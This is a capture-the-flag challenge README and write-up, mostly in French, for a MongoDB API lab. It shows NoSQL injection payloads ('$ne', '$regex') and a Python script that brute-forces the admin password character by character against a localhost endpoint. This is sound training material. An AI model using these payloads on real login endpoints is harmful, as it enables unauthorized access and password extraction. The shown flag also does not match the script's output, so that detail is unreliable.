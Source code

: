 # Quotes-A-Day 1

> Web <br>
> Author: @Strix

# Challenge

We've built a brand new API to allow our users to get an inspirational quote on demand!
Our security team has yet to approve it for production, but I really think we did everything right

Checkout our documentation to get started! `URL DU CHALLENGE/docs`

FLAG: `FLAG-N0SQL_D0ESNT_M3AN_N0_SQLi`

## Outils nécessaires

- docker-compose

## Exécution

```bash
docker-compose up --build --force-recreate --renew-anon-volumes
```

## Writeup

Le défi est une vulnérabilité assez standard de NoSQL que l'utilisateur doit exploiter. Le flag est le mot de
passe de l'utilisateur admin, qui peut être trouvé en abusant de l'entrée non validée dans les champs email et password
du endpoint /api_key.

Plusieurs payloads peuvent être utilisées, car l'application permet l'utilisation d'objets comme input aux champs email
et password puisque ces derniers ne sont pas validés.

Exemple:

```json
{
  "email": "admin@unite.com"
  "password": {
    "$ne": 1
  }
}
```

Qui nous retourne:

```json
{
  "API_KEY": "6125da25d002882618d55be9",
  "message": "Use API_KEY as the value to the api_key parameter in our other queries"
}
```

Il existe plusieurs [fonctions d'agrégation](https://docs.mongodb.com/manual/aggregation/), tels que "$where", "$regex",
etc. Une des fonctions que nous pouvons utiliser pour trouver le flag est `$regex`. `$regex` nous permet de matcher des
champs du document de la base de donnée avec l'expression donnée en input.

Exemple:

```json
{
  "email": "admin@unite.com",
  "password": {
    "$regex": "FLAG-(.*)"
  }
}
```

Qui nous retourne la même réponse (200) mentionnée plus haut.

Maintenant, nous savons que le flag est du format FLAG-..., nous savons aussi qu'une requête réussie nous retourne un
code de 200 et la clé API, donc nous pouvons écrire une fonction qui nous permet d'exécuter des requêtes pour
extraire les lettres entre les deux accolades :

```python
import requests

flag_letters = 'abcdefghijklmnopqrstuvxwyzABCDEFGHIJKLMNOPQRSTUVXWYZ0123456789_-{}'
index = 0
flag = "FLAG-"
url = "http://localhost:3000/api_key"
headers = {'Content-type': 'application/json'}
while True:
    for letter in flag_letters:
        data = {"email": "admin@unite.com", "password": {"$regex": "{}(.*)".format(flag + letter)}}
        response = requests.post(url, json=data, headers=headers)
        index = index + 1
        if "API_KEY" in response.text:
            flag = flag + letter
            print(flag)
```

Qui nous retourne donc quelque chose comme ça:

```bash
FLAG-N
FLAG-No
FLAG-No5
FLAG-No5Q
...
FLAG-No5QL_D0ESNT_M3AN_N0_SQLi
```